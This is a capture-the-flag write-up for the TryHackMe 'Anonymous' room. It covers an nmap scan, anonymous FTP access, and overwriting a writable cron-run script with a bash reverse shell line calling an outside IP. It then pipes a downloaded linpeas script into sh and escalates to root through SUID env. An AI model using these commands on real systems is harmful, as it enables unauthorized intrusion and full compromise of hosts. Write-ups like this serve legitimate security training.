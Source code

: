 ## Anonymous | TryHackMe

This is the link for the room [Anonymous](https://tryhackme.com/room/anonymous)

<img src="https://user-images.githubusercontent.com/67650329/214474313-96ed4e22-4432-4a7f-af21-c9e3dc5d97bc.png" width="250px" align="center">

---
Not the hacking group.

Let's Go.

`nmap -sC -sV -p- -T4 {IP}`

- -sC = Run the default script.

- -sV = Version of services.

- -p- = Checking for all port.

- -T4 = Scanning speed.

This is the result for the scanning with nmap tools.

```
PORT	STATE SERVICE 	REASON  VERSION
21/tcp  open  ftp     	syn-ack vsftpd 2.0.8 or later
***
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxrwxrwx	2 111  	113      	4096 Jun 04  2020 scripts [NSE: writeable]
22/tcp  open  ssh     	syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
***
139/tcp open  netbios-ssn syn-ack Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn syn-ack Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
Service Info: Host: ANONYMOUS; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 0s, deviation: 0s, median: 0s
| smb2-time:
|   date: 2023-01-09T09:59:39
|_  start_date: N/A
| p2p-conficker:
|   Checking for Conficker.C or higher...
|   Check 1 (port 31568/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 52311/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 24358/udp): CLEAN (Failed to receive data)
|   Check 4 (port 37087/udp): CLEAN (Failed to receive data)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| nbstat: NetBIOS name: ANONYMOUS, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| Names:
|   ANONYMOUS<00>    	Flags: <unique><active>
|   ANONYMOUS<03>    	Flags: <unique><active>
|   ANONYMOUS<20>    	Flags: <unique><active>
|   \x01\x02__MSBROWSE__\x02<01>  Flags: <group><active>
|   WORKGROUP<00>    	Flags: <group><active>
|   WORKGROUP<1d>    	Flags: <unique><active>
|   WORKGROUP<1e>    	Flags: <group><active>
| Statistics:
|   00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
|   00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
|_  00 00 00 00 00 00 00 00 00 00 00 00 00 00
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode:
|   3.1.1:
|_	Message signing enabled but not required
| smb-os-discovery:
|   OS: Windows 6.1 (Samba 4.7.6-Ubuntu)
|   Computer name: anonymous
|   NetBIOS computer name: ANONYMOUS\x00
|   Domain name: \x00
|   FQDN: anonymous
|_  System time: 2023-01-09T09:59:39+00:00
```

Port open:

- 21 = FTP.
- 22 = SSH.
- 139 = netbios.
- 445 = netbios.

As we can see open port 21 FTP says:
```
21/tcp  open  ftp     	syn-ack vsftpd 2.0.8 or later
***
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxrwxrwx	2 111  	113      	4096 Jun 04  2020 scripts [NSE: writeable]
```
ftp Anonymous FTP login allowed. So we can use the ftp with anonymous user.

`ftp [IP_Target]`

```
Connected to Target.
220 NamelessOne's FTP Server!
Name (Target:kali): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||52432|)
150 Here comes the directory listing.
drwxrwxrwx	2 111  	113      	4096 Jun 04  2020 scripts
226 Directory send OK.
```
We are into the ftp machine. 

We can see on ftp we got the folder scripts. 

We can get in to the scripts folder.

```
ftp> cd scripts
250 Directory successfully changed.
ftp> ls
229 Entering Extended Passive Mode (|||38352|)
150 Here comes the directory listing.
-rwxr-xrwx	1 1000 	1000      	314 Jun 04  2020 clean.sh
-rw-rw-r--	1 1000 	1000     	1247 Jan 09 10:06 removed_files.log
-rw-r--r--	1 1000 	1000       	68 May 12  2020 to_do.txt
226 Directory send OK.
```
And now we can see the 3 files on scripts folder (clean.sh, removed_files.log & to_do_txt)

We can download the 3 files on this scripts folder.

```
ftp> mget *
mget clean.sh [anpqy?]?
229 Entering Extended Passive Mode (|||12870|)
150 Opening BINARY mode data connection for clean.sh (314 bytes).
100% |*******************************|   314  	110.62 KiB/s	00:00 ETA
226 Transfer complete.
314 bytes received in 00:00 (1.54 KiB/s)
mget removed_files.log [anpqy?]?
229 Entering Extended Passive Mode (|||50223|)
150 Opening BINARY mode data connection for removed_files.log (1247 bytes).
100% |*******************************|  1247   	20.86 MiB/s	00:00 ETA
226 Transfer complete.
1247 bytes received in 00:00 (6.24 KiB/s)
mget to_do.txt [anpqy?]?
229 Entering Extended Passive Mode (|||59539|)
150 Opening BINARY mode data connection for to_do.txt (68 bytes).
100% |*******************************|	68  	657.48 KiB/s	00:00 ETA
226 Transfer complete.
68 bytes received in 00:00 (0.33 KiB/s)
```
Ok!. After we download the files, We can open the files one by one.

```
└─$ cat clean.sh
#!/bin/bash

tmp_files=0
echo $tmp_files
if [ $tmp_files=0 ]
then
    	echo "Running cleanup script:  nothing to delete" >> /var/ftp/scripts/removed_files.log
else
	for LINE in $tmp_files; do
    	rm -rf /tmp/$LINE && echo "$(date) | Removed file /tmp/$LINE" >> /var/ftp/scripts/removed_files.log;done
fi
```
```
└─$ cat removed_files.log
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
***
```
```
└─$ cat to_do.txt   	 
I really need to disable the anonymous login...it's really not safe
```
After that we can see the clean.sh. We can replace the clean.sh with our shell on [PentestMonkey](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

`bash -i >& /dev/tcp/10.0.0.1/8080 0>&1`

And after we change the file with our code. Now we must replace the file on ftp with our code file.

Before we replace it. Don't forget to run the listener using netcat.

`nc -lvnp [Port]

```
ftp> put clean.sh
local: clean.sh remote: clean.sh
229 Entering Extended Passive Mode (|||55931|)
150 Ok to send data.
100% |*******************************|	54  	878.90 KiB/s	00:00 ETA
226 Transfer complete.
54 bytes sent in 00:00 (0.13 KiB/s)
```
After we put the file into the ftp machine.

The listener automated run into the machine ssh machine.

```
listening on [any] 4444 ...
connect to [Target] from (UNKNOWN) [10.10.212.113] 54920
bash: cannot set terminal process group (1368): Inappropriate ioctl for device
bash: no job control in this shell
namelessone@anonymous:~$ ls
ls
pics
user.txt
namelessone@anonymous:~$ cat user.txt
cat user.txt
```
After we got the user the next step it's we must find the root.

I think we can use the linpeas first.

```
namelessone@anonymous:~$ curl 10.8.8.39/linpeas.sh | sh

-rwsr-xr-x 1 root root 35K Jan 18  2018 /usr/bin/env
```
On the linpeas we got the edited file on env folder.

We can exploit the env with [gtfo](https://gtfobins.github.io/gtfobins/env/)

```
namelessone@anonymous:~$ /usr/bin/env /bin/sh -p
/usr/bin/env /bin/sh -p
whoami
root
cat /root/root.txt
```
And BOOM! We got the root.

---

